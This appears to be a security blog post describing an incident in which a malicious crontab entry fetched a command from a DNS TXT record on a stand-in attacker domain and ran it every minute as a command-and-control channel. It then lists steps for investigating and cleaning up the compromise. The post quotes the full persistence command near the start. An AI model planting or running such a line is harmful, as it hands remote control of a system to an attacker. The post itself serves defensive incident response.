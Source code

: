 ```yaml
---
title: "Investigation and Mitigation of a System Compromise via Crontab"
date: 2023-01-04 12:02:05
categories: [vulnerabilities]
tags: [vulnerabilities, crontabs, persistence]
---
```


## Introduction

In the world of information security, detecting and mitigating malicious activities is essential to protect the integrity and confidentiality of systems. Recently, we encountered an intriguing case of system compromise through a crontab command. This article details the discovery, analysis, and mitigation measures taken to resolve the issue.

## Discovery of the Problem

While inspecting the crontabs on the system, the following suspicious entry was found:

```bash
* * * * * /bin/sh -c "sh -c $(dig malicioussite.com TXT +short @ns.malicioussite.com)"
```

This line indicates that a command is executed every minute, querying a DNS TXT record from the domain `malicioussite.com` and executing the result. This technique is often used to maintain control over compromised systems.

## Command Analysis

### Command Components

- `* * * * *`: Indicates that the command is executed every minute.
- `/bin/sh -c`: Executes a shell command.
- `$(dig malicioussite.com TXT +short @ns.malicioussite.com)`: Uses `dig` to query a DNS TXT record and executes the result.

### Suspicious Behavior

This configuration allows an attacker to remotely update the executed command by changing the TXT record on the `ns.malicioussite.com` DNS server. This is a clear indication of a possible command and control (C2) mechanism.

## Mitigation Measures

### 1. Disable the Crontab

To prevent the execution of the malicious command, the crontab entry was disabled:

```bash
sudo crontab -e
```

The suspicious line was commented out or removed.

### 2. Investigate the Machine

Other crontabs and configuration files were inspected to find suspicious commands:

```bash
sudo find /var/spool/cron -type f -exec cat {} \;
sudo find /etc/cron* -type f -exec cat {} \;
```

### 3. Check Network Connections

Tools like `netstat`, `ss`, and `lsof` were used to identify suspicious network connections:

```bash
sudo netstat -tulnp
sudo ss -tulnp
sudo lsof -i
```

### 4. Examine Running Processes

Running processes were checked to identify activities related to `sh -c`:

```bash
ps aux | grep -i 'sh -c'
```

### 5. Check System Logs

System logs were examined to detect suspicious activities:

```bash
sudo tail -n 100 /var/log/syslog
sudo tail -n 100 /var/log/auth.log
```

### 6. Use Security Tools

Rootkit check and security analysis tools were executed:

```bash
sudo chkrootkit
sudo rkhunter --checkall
sudo lynis audit system
```

### 7. Isolate and Reboot the Machine

The machine was isolated from the network to prevent the spread of malicious activities and was rebooted to ensure system integrity.

### 8. Report and Analyze

The incident was reported to the security team for further analysis and to implement additional security measures.

## Conclusion

Detecting and mitigating malicious activities requires attention to detail and a solid knowledge of available tools and techniques. This case of system compromise via crontab highlighted the importance of continuous vigilance and quick and effective response measures. System security is an ongoing responsibility, and prevention is always the best remedy.

---

_Stay vigilant and keep your systems secure!_
